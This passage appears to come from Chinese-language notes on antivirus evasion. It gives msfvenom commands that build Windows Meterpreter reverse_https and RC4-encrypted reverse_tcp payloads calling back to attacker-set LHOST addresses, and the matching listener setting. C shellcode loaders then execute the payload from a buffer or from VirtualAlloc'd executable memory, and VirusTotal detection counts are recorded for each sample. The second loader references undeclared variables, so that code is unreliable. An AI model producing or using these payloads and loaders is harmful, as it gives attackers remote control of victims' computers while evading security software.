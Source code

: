 [![BG101A.md.png](https://s1.ax1x.com/2020/10/29/BG101A.md.png)](https://imgchr.com/i/BG101A)

VT免杀率（40/71)。火绒秒杀。

#### 10.10 msf reverse_https （57/71）

https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg

https://www.freebuf.com/sectool/118714.html

生成 payload ：

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.2.131 LPORT=4444 -f exe -o 10.exe
```

监听时设置

```bash
set payload windows/meterpreter/reverse_https
```

[![BG3r8J.md.png](https://s1.ax1x.com/2020/10/29/BG3r8J.md.png)](https://imgchr.com/i/BG3r8J)

VT免杀率（57/71）.火绒秒杀。

#### 10.11 revese_tcp_rc4 

 https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg

```bash
msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=10.211.55.2 lport=2223 RC4PASSWORD=tidesec  -f c
```

把生成的shellcode在相应位置替换

```bash
#include <Windows.h>
#include <String.h>

unsigned char buf[] = 

"shellcode is here";

void main()

{

	( (void(*)(void))&buf)();

}
```

下面的这种方法，vc++6.0能够成功编译，但是vs编译会报错，可以换成：

```c
#include <Windows.h>
#include <String.h>

void main()

{

	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(Memory, buf, sizeof(buf));

	((void(*)())Memory)();

}
```
